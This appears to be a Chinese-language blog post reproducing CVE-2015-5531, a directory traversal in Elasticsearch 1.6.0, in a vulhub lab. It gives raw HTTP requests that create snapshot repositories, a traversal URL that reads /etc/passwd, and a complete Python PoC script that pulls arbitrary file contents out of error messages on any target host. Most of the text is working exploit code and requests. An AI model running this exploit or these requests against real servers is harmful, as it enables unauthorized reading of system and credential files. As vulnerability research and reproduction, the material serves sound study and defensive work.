




# ElasticSearch 目录穿越漏洞（CVE-2015-5531） - NoCirc1e - 博客园

> 原文：[`www.cnblogs.com/NoCirc1e/p/16275612.html`](https://www.cnblogs.com/NoCirc1e/p/16275612.html)

jre 版本：openjdk:8-jre

elasticsearch 版本：v1.6.0

影响版本：1.6.1 以下

## 原理

参考文章

*   [`www.exploit-db.com/exploits/38383/`](https://www.exploit-db.com/exploits/38383/)
*   [`www.freebuf.com/vuls/99942.html`](http://www.freebuf.com/vuls/99942.html)

说明：

elasticsearch 1.5.1 及以前，无需任何配置即可触发该漏洞。之后的新版，配置文件 elasticsearch.yml 中必须存在`path.repo`，该配置值为一个目录，且该目录必须可写，等于限制了备份仓库的根位置。不配置该值，默认不启动这个功能。

## 漏洞复现

这里使用 v1.6.0 版本

使用 vulhub


环境启动后，访问 http://your-ip:9200



1\. 新建一个仓库

```
PUT /_snapshot/test HTTP/1.1
Host: your-ip:9200
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 108

{
    "type": "fs",
    "settings": {
        "location": "/usr/share/elasticsearch/repo/test" 
    }
}
```



2\. 创建一个快照

```
PUT /_snapshot/test2 HTTP/1.1
Host: your-ip:9200
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 108

{
    "type": "fs",
    "settings": {
        "location": "/usr/share/elasticsearch/repo/test/snapshot-backdata" 
    }
}
```


3\. 目录穿越读取任意文件

访问 `http://your-ip:9200/_snapshot/test/backdata%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2fetc%2fpasswd`



这里报错返回的就是读出来的文件，编码为 ASCII


## POC

```
#!/usr/bin/env python
# PoC for CVE-2015-5531 - Reported by Benjamin Smith
# Affects ElasticSearch 1.6.0 and prior
# Pedro Andujar || twitter: pandujar || email: @segfault.es || @digitalsec.net
# Jose A. Guasch || twitter: @SecByDefault || jaguasch at gmail.com
# Tested on default Linux (.deb) install || requires path.repo: to be set on config file

import urllib, urllib2, json, sys, re

print "!dSR script for CVE-2015-5531\n"
if len(sys.argv) <> 3:
        print "Ex: %s www.example.com /etc/passwd" % sys.argv[0]
        sys.exit()

host = sys.argv[1]
fpath = urllib.quote(sys.argv[2], safe='')
port = 9200
trav = 'ev1l%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..' 
reponame = 'pwn'
baseurl = "http://%s:%s/_snapshot/" % (host, port)
xplurl = '%s%s/%s%s' % (baseurl, reponame, trav, fpath)

def createSnapdirs():
	try:
		url = "%s/%s" % (baseurl, reponame)
		request = urllib2.Request(url, data='{"type":"fs","settings":{"location":"dsr"}}')
		request.get_method = lambda: 'POST'
		urllib2.urlopen(request)

        	url = "%s/%sie" % (baseurl, reponame)
	        request = urllib2.Request(url, data='{"type":"fs","settings":{"location":"dsr/snapshot-ev1l"}}')
	        request.get_method = lambda: 'POST'
	        urllib2.urlopen(request)
	except urllib2.HTTPError, e:
                data = json.load(e)
		print "[!] ERROR: Verify path.repo exist in config file, elasticsearch.yml:\n"
		print str(data['error'])
		sys.exit()

def grabFile(xplurl):
	try:
		urllib2.urlopen(xplurl)
	except urllib2.HTTPError, e:
		data = json.load(e)
		extrdata = re.findall(r'\d+', str(data['error']))
		decoder = bytearray()
		for i in extrdata[+2:]:
			decoder.append(int(i))
		print decoder

def main():
	createSnapdirs()
	grabFile(xplurl)

if __name__ == "__main__":
    main() 
```

成功

